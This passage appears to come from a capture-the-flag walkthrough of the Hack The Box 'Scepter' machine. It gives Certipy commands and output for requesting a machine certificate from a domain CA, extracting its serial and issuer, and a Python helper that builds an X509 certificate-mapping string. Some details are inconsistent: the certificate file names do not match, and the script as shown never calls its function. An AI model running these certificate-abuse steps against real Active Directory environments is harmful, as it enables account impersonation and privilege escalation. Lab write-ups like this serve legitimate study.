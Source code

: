 ```bash
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[-] Got error: module 'enum' has no attribute '_decompose'
[-] Use -debug to print a stacktrace
```

**Certipy find + req → obtain machine certificate**

```bash
certipy req -ca scepter-DC01-CA -template Machine -target 10.10.11.65 -username 'nosecpc$' -password 'Password123'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with DNS Host Name 'nosecpc.scepter.htb'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-9101'
[*] Saved certificate and private key to 'nosecpc.pfx'
```

## Getting the cert

```bash
certipy cert -pfx meow.pfx -nokey -out nosecpc.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'nosecpc.crt'
```

```bash
**openssl x509 -in nosecpc.crt -noout -serial -issuer**
serial=6200000009929668CFF0981AD8000000000009
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
```

## Converting to colon-separated hex string

```bash
echo 6200000009929668CFF0981AD8000000000009 | sed 's/../&:/g;s/:$//'
```
---

## Generating X509 string (Python)

```python
import argparse

def convert(serial, issuer):
    serial = serial.replace(':', '').lower()
    serial_bytes = bytearray.fromhex(serial)
    serial_bytes.reverse()
    serial_hex = ''.join(['%02x' % b for b in serial_bytes])
    issuer_parts = issuer.split(',')
    issuer_parts = [p.strip() for p in issuer_parts]
    issuer_parts.reverse()
    issuer_str = ','.join(issuer_parts)
    print(f"X509:<I>{issuer_str}<SR>{serial_hex}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-serial', required=True, help='Certificate serial (colon separated)')
    parser.add_argument('-issuer', required=True, help='Certificate issuer')
    args = parser.parse_args()
```